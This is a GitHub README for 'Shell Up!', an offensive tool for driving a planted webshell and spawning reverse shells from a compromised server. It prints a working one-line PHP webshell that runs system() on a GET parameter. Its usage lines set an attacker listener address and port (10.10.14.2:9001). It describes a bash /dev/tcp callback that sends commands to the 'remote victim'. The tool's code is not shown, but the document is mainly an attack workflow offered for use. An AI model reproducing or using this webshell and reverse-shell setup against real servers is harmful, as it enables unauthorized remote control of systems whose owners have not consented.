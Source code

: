 # Shell Up!
A much more lightweight way to connect to a webshell without having to use Burp Suite.
I wrote this not out of necessity, but because I was always considering doing it one day
and given the current COVID-19 climate I finally said screw it and wrote this. In the event
that I obtain code execution on a server and am able to write a quick oneliner webshell that
looks something like this:

`<?php system($_GET['cmd']); ?>`

You can run this script and issue commands as needed. Typically all that is necessary is a
callback via a reverse shell, so this script takes care of all of the overhead necessary.

## Usage

`shellup.py http://example.com/pwned.php`

This will connect to the endpoint and run an immediate check to determine code execution,
assuming your invoke word is "cmd". If it isn't, you can modify those settings in the REPL:

`shellset invokeword c`

Don't forget to set your LHOST and LPORT properties for reverse shells:

`shellset lhost 10.10.14.2`

`shellset lport 9001`

Something not working right? Run it through a proxy like burpsuite or mitmproxy andfind out
what's going on:

`shellset proxy http://localhost:8080`

`whoami`

Or, you could just set these flags up beforehand at the command line:

`shellup.py http://example.com/pwned.php -lh 10.10.14.2 -lp 9001 -i agr0 -p http://localhost:8080`

Once you have your settings configured properly, the "shellup" function allows you to start up a
reverse shell in many different ways. All you need to do is type something like:

`shellup bash`

And it will connect back to you using the /dev/tcp/ method that comes with the bash shell.
Several reverse callback methods have been preloaded into this script, but when all else fails
you can simply issue arbitrary commands via the included REPL. Just type anything and it sends
it to the remote victim, all properly URL encoded!

Hack The Planet!